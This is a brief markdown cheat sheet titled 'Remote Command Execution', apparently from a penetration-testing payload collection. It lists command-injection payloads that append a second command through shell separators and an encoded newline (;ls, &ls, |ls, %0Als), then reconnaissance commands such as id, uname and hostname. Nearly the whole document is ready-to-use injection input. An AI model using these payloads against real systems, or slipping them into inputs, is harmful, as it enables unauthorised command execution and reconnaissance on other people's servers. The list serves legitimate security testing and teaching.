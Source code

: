 # Remote Command Execution

## Payloads
```
;ls
&ls
&&ls
|ls
||ls
%0Als
```

## Useful commands
- ```pwd```
- ```uname```
- ```id```
- ```hostname```
